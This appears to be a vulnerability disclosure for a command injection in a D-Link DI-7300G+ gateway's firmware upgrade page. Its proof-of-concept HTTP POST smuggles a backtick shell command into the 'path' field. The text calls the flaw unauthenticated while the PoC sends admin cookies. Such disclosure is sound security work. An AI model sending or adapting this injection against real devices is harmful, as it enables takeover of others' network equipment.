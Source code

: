 
# Information


**Vendor of the products:**  D-Link

**Vendor's website:** https://www.dlink.com.cn/

**Affected products:**  DI_7300G+V2

**Affected firmware version:** V 19.12.25A1

**Firmware download address:** [D-Link Technical Support](https://www.dlink.com.cn/techsupport/download.ashx?file=7772)

**Submitter:** Yun Zhang @DavCloudz


# Overview

A critical remote os command execution vulnerability has been identified in the D-Link DI-7300G+ enterprise gateway. The vulnerability exists in the /version_upgrade.asp endpoint. This flaw allows an unauthenticated remote attacker to execute arbitrary operating system commands on the underlying system with elevated privileges.

The vulnerability arises due to insufficient input validation and sanitization of user-supplied data within the HTTP POST request handler for the version_upgrade.asp page. By crafting a malicious POST request containing shell metacharacters and arbitrary commands, an attacker can bypass intended security restrictions. The injected commands are subsequently executed by the device's operating system with root or system-level permissions.

# Vulnerability details

The API for invoking the function

<img width="865" height="599" alt="image" src="https://github.com/user-attachments/assets/df83cf0b-d50a-4d9a-8936-dc7d36eccc21" />


You can see that the values of patch and type are taken, but when the type is empty, it will enter the else branch and stitch the value of patch into the system implementation command to execute

<img width="865" height="732" alt="image" src="https://github.com/user-attachments/assets/d4e3c370-a31b-45c3-944b-0fdb530ad943" />


Although there is filtering, there is still command injection because the filtering is not strict

<img width="865" height="135" alt="image" src="https://github.com/user-attachments/assets/8d9b7ddc-21bd-479c-800e-70463228f00f" />


# POC

```
POST /version_upgrade.asp HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: wysLanguage=CN; userid=admin; gw_userid=admin,gw_passwd=F499CB5B7A1156B90910F2EE55A10A98
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

path=`ls>/pwn.txt`
```

<img width="865" height="492" alt="image" src="https://github.com/user-attachments/assets/035bfa97-59ae-4a05-b92b-8f868b131bb5" />
